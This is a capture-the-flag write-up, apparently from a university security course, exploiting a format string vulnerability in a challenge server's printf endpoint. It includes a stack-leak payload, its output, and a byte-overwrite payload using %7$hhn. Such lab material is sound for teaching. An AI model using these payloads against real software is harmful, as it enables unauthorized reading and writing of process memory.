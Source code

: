 # Challenge `Write Specific Byte` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read and write the stack values and arbitrary registers** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22194`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can send `%08x.` characters to print the stack values. We need to see where in the stack our buffer is and update the targets value to something different. To check the **target address** we used the gdb debugger with the corresponding **binary** file. To get it, we made a breakpoint in **vuln** and used the following command:

```bash
gdb-peda$ p &target
$1 = (unsigned int *) 0x804a044 <target>
```

Since we now have the address of the target we now need to know where in the stack the buffer starts. To do this we used the following payload:

```python
msg = (b"AAAA" + b"%08x."*20)
```

We obained: 
```bash
AAAAffffdc7c.0000007f.ffffdcd8.f7ffda74.00000001.f7fd3490.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
Oops, not quite! Target was: 00000000
```

Because we used the string `AAAA` as a reference, we can see that the buffer starts in the 7th place. Having this information, we can now try to overwrite the target value. This time around, we need to make the target have the most significant bytes overwritten. To do this we used the following payload:

```python
msg = (b"\x47\xa0\x04\x08" + b"%10x" + b"%7$hhn")
r.sendline(msg)
print(f"Flag: {r.recvall()}")
r.close()
```
Note: The address value used is not the same as the target, is the address + 3. This is because we want to change the most significant byte of the target.

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](write_specific_byte_poc.py)